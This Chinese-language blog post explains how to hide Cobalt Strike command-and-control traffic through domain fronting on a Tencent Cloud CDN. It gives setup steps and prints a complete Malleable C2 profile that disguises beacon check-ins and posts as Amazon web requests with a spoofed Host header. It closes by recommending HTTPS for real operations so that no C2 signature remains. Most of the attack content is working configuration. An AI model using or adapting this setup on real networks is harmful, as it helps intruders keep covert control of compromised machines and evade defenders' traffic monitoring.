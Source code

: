 ```yaml
---
layout: post
title:  "cobaltstrike 域前置隐藏 c2"
date:   2021-04-29 17:18:43
categories: Development
author: co0ontty
categories: 安全研究 ALL
tags: 安全研究 ALL
describe: cobaltstrike 域前置隐藏 c2
cover: '/assets/img/posts/WechatIMG3712.jpeg'
---
```

# cobaltstrike 域前置隐藏 c2

## 前言：

因为想搭建一套域前置来学习一下高端技术，但是看到网上各种博客和教程讲的我头晕脑涨，所以想写一下博客来记录一下。本文中的域名、c2 、cdn ip 都不会打厚码。能帮助刚接触的朋友快速理解。

## 原理介绍：

域前置的核心是 cdn 。在某 cdn 服务商开通 cdn 加速服务，并将想要伪造的域名与 c2 的 ip 进行绑定（阿里云和 cloudflare 需要验证，腾讯云不需要验证域名所属），通过向 cdn 的节点 ip 发送包含想要伪造 host 的请求，cdn 便会从记录中查找该 host 对应的源站 ip，并将流量转发至原站 ip。

## 开始搭建：

1. 腾讯云 cdn 开通全站加速，并填写相关信息（youhao 为我同事，eversec.cn 为我司域名但我无法控制，可以改为任意域名，47.*.*.34 为我的 c2 服务器，其 80 端口为 cobaltstrike 的 http listener）

![/assets/img/posts/WechatIMG41412.jpeg](/assets/img/posts/WechatIMG41412.jpeg)

2. 为 cobaltstrike teamserver 添加 profile，其中 `youhao.eversec.cn` 修改为想要伪装的域名   

``` bash
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";

http-get {

    set uri "/s/ref=nb_sb_noss_1/167-3294888-0262949/field-keywords=books";

    client {

        header "Accept" "*/*";
        header "Host" "youhao.eversec.cn";

        metadata {
            base64;
            prepend "session-token=";
            prepend "skin=noskin;";
            append "csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
            header "Cookie";
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";
        header "x-amz-id-2" "a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "Content-Encoding" "gzip";

        output {
            print;
        }
    }
}

http-post {

    set uri "/N4215/adj/amzn.us.sr.aps";

    client {

        header "Accept" "*/*";
        header "Content-Type" "text/xml";
        header "X-Requested-With" "XMLHttpRequest";
        header "Host" "youhao.eversec.cn";

        parameter "sz" "160x600";
        parameter "oe" "oe=ISO-8859-1;";

        id {
            parameter "sn";
        }

        parameter "s" "3717";
        parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";

        output {
            base64;
            print;
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";
        header "x-amz-id-2" "a21JZ1xrNDNtdGRsa219bGV3YW85amZuZW9zdG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "x-ua-compatible" "IE=edge";

        output {
            print;
        }
    }
}
```

3. 获取 cdn 的节点 ip，ping 这个 cname 获取到 cdn 的节点 ip

![/assets/img/posts/WechatIMG4144.jpeg](/assets/img/posts/WechatIMG4144.jpeg)
![/assets/img/posts/WechatIMG4143.png](/assets/img/posts/WechatIMG4143.png)

4. 添加 listener，生成 payload 发给 youhao，youhao 上线

![/assets/img/posts/WechatIMG4142.jpeg](/assets/img/posts/WechatIMG4142.jpeg)

5. 流量分析，为了方便理解所以使用的 http 进行的演示，可以看到已经看不到任何与 c2 通许的特征，实战建议使用 https

![/assets/img/posts/WechatIMG3712.jpeg](/assets/img/posts/WechatIMG3712.jpeg)
